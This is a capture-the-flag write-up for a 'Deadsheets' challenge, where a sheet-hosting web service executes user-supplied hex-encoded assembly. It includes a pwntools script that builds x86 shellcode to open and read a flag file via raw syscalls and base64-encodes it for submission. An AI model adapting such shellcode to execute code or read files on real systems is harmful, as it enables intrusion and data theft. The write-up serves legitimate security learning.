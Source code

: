 # Deadsheets 
## Summary 
In this challenge the website we are given access to creates a "database"
sheet that is accessable online as a new file, the interesting aspect of 
this challenge is the fact that is has a extensible option when we add 
in data to the sheet. This option allows us to run any hex encoded assembly 
code which means we have arbitrary code execution access to the challenge.
However actually creating this payload is another story and requires some knowledge about how assembly works and especially how system calls within assembly works.

## Approach
Below is the payload that my team came up with for accessing the flag,
there is comments describing what each section is doing, however keep in
mind that the payload must not have the comments within in it for it to 
actually run properly.
```python
from pwn import *

from base64 import b64encode

bss_addr = 0x0804c060
flag_addr = bss_addr + 5 # address to push the flag to so we can access it

payload = asm(f"""
pushad
# setup for actually opening the flag file
mov eax, 0x5 
push 0x0
push 0x67616c66
mov ebx, esp
mov ecx, 0x0
mov edx, 0x0
int 0x80 # run the system call that is setup abover

# read the contents in the open file
mov ebx, eax
mov eax, 0x3
mov ecx, {flag_addr}
mov edx, 0x40
int 0x80 # run setup syscall to read file


# access the open syscall return so we can read the actual flag 
mov eax, {flag_addr}

# pop values at the end
pop esi
pop esi
popad
ret
""")
# encode payload so we can use it on the server
print(b64encode(payload))
```